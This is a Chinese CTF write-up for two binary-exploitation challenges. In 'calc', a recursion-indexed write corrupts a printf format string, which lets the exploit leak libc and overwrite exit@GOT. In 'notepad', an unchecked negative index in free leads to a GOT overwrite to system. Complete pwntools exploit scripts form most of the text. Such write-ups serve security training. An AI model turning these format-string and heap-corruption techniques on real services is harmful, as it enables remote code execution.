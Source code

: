 为了方便先把北航大佬的write up拉下来，以后有空进行修改



# calc

程序是个模拟计算器，然后是个递归调用  
玩了好久没找到漏洞点  
然后就一个一个玩，在+的函数中发现了一个很好玩的函数,0x400C86  
有一句:  
`*(_QWORD *)(a1 + 8 * (*(unsigned __int8 *)(a1 + 0x948) + 4LL)) = *(_QWORD *)(a1 + 0x938);`  
这个
测试了这个代码发现有漏洞  
比如输入`++++++1+2`  
中途会把1放在bss段的那个数据区,并且位置和它递归的层数有关，相当于一个index  
相当于是一个数据存放的中转区  
观察一下附近的数据，发现有个`result: %lld\n`  
发现是0x400FF6中的  
`return printf((const char *)(a1 + 0x120), *(_QWORD *)(a1 + 0x938));`  
构思了一下，如果我们的`+`号足够多，就可以更改这个字符串的内容  
然后打印的是结果，于是就可以构造类似于  
`printf("%s",got_addr)`  
`printf("%n",got_addr)`  
这种payload，只要结果是got的地址就行了  
感觉这题出的非常好玩  
下面是payload,改掉exit_got为one_gadget就行了:  

```python  
from pwn import *
import sys
if len(sys.argv) < 2:
	debug = True
else:
	debug = False

if debug:
	p = process("./calc")
	libc = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
	elf = ELF("./calc")
else:
	p = remote(sys.argv[1],sys.argv[2])
	libc = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
	elf = ELF("./calc")
	

def calcu(buf,conti = True):
	p.sendlineafter("Your input:\n",buf)

def conti(conti = True):
	if conti:
		p.sendafter("Y:N\n","Y")
	else:
		p.sendafter("Y:N\n","N")
	
def debugf():
	gdb.attach(p,"b *0x400920\nb printf")

def sendpayload(p1,write_addr):
	base = 0x6020c0
	target = 0x6021c0
	number = (target-base)/8
	payload = "-" * number
	res = 0
	while p1[:8] != "":
		par1 = u64(p1[:8].ljust(8,"\x00"))
		payload += str(par1) + "+"
		res += par1
		p1 = p1[8:]
	payload += str(write_addr - res)
	calcu(payload)

def change_exit():
	one_gadget = libc.address + 0xf1147
	log.success("one_gadget:"+hex(one_gadget))
	exit_got = elf.got["exit"]
	#debugf()
	for i in range(8):
		number = (one_gadget >> (i*8)) & 0xff
		if number == 0:
			payload = "%1$hhn"
		else:
			payload = "%{number}c%1$hhn".format(number=number)
		#payload = "%1c%1$n"
		sendpayload(payload,exit_got+i)
		if i != 7:
			conti()
		else:
			conti(False)

context.log_level = "debug"
context.terminal = ["tmux","splitw","-v"]
base = 0x6020c0
target = 0x6021c0
number = (target-base)/8
p1 = u64("%s".ljust(8,"\x00")) 
payload = "-"*number + str(p1) + "+" + str(elf.got["puts"]-p1)
calcu(payload)
#print p.recv(6)
puts_addr = u64(p.recvuntil("continue")[:6].ljust(8,"\x00"))
libc.address = puts_addr - libc.symbols["puts"]
log.success("libc_base:"+hex(libc.address))
conti()
change_exit()
p.interactive()
```

# notepad
这个题看了很久发现没有漏洞,没有UAF之类的  
secret算法中,因为是个密码学选手,QAQ  
大概看了秘钥长度为8,是个能加密解密的,肯定是块加密,DES没跑了  
简单调试验证了下是个DES  
因为第一天给过提示，`key maybe the key`  
猜想是不是因为加密造成了堆溢出之类的,发现没有(以为长度不为8的倍数会有问题，检查了半天发现做了padding,还是个PKCS5,tql)  
看了半天发现只有free的时候没有check index是否是负数  
联想`key maybe the key`,感觉是不是可以在KEY上伪造堆块头部，然后free掉，造成free任意地址堆块  
在调试的时候发现DES KEY存的很奇怪,下标故意加了个1,感觉了一下好像是用来存储标志的  
因为这个题存放的时候是chunk_addr,inuse,size  
所以最后一位放1,前面写地址就行了  
前面写地址的时候还得注意找末尾是\x00的地址,分配多个堆块找到\x00对应的bss_addr,好像是20左右,具体看payload  
然后free掉DES KEY位置的堆块,再 malloc 一个堆块  
就可以达到修改 globle_heap 中的堆块地址了  
改为got_addr,先leak再写入,free -> system,再free一个内容是"/bin/sh"的堆块,getshell  
利用代码如下:  

```python
from pwn import *
import sys
if len(sys.argv) < 2:
	debug = True
else:
	debug = False

if debug:
	p = process("./notepad")
	libc = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
	elf = ELF("./notepad")
else:
	p = remote(sys.argv[1],sys.argv[2])
	libc = ELF("libc.so.6")
	elf = ELF("./notepad")

def add(size,content):
	p.sendlineafter(">> ","1")
	p.sendlineafter("Size: ",str(size))
	p.sendafter("Data: ",content)

def edit(index,size,content):
	p.sendlineafter(">> ","2")
	p.sendlineafter("Index: ",str(index))
	p.sendlineafter("Size: ",str(size))
	p.sendafter("Data: ",content)

def show(index):
	p.sendlineafter(">> ","3")
	p.sendlineafter("Index: ",str(index))

def free(index):
	p.sendlineafter(">> ","4")
	p.sendlineafter("Index: ",str(index))

def set_key(key):
	p.sendlineafter(">> ","5")
	p.sendlineafter(">> ","1")
	p.sendafter("Key: ",key)

def encrypt(index):
	p.sendlineafter(">> ","5")
	p.sendlineafter(">> ","2")
	p.sendlineafter("Index: ",str(index))
	
def decrypt(index):
	p.sendlineafter(">> ","5")
	p.sendlineafter(">> ","3")
	p.sendlineafter("Index: ",str(index))
	
def debugf():
	gdb.attach(p,"b *0x0000000000402077\nb free\nb *0x402471")

context.log_level = "debug"
context.terminal = ["tmux","splitw","-v"]
size = 0x61
for i in range(20):
	add(size,(chr(ord("a")+i))*size)
set_key("\x50\x60".ljust(7,"\x00")+"\x01")
target = 0x6040E0
ori = 0x604E80
index = -151 + 5
debugf()
#print index
free(index)
add(size-0x10,"a"*(size-0x10))
payload = p64(elf.got["puts"]) + p64(1) + p64(0x51)
#debugf()
edit(20,len(payload),payload)
show(16)
puts_addr = u64(p.recv(6).ljust(8,"\x00"))
libc.address = puts_addr - libc.symbols["puts"]
log.success("libc_base:"+hex(libc.address))
payload = p64(elf.got["free"]) + p64(1) + p64(0x51)
edit(20,len(payload),payload)
payload = p64(libc.symbols["system"])
edit(16,len(payload),payload)
edit(0,8,"/bin/sh\x00")
free(0)
p.interactive()
```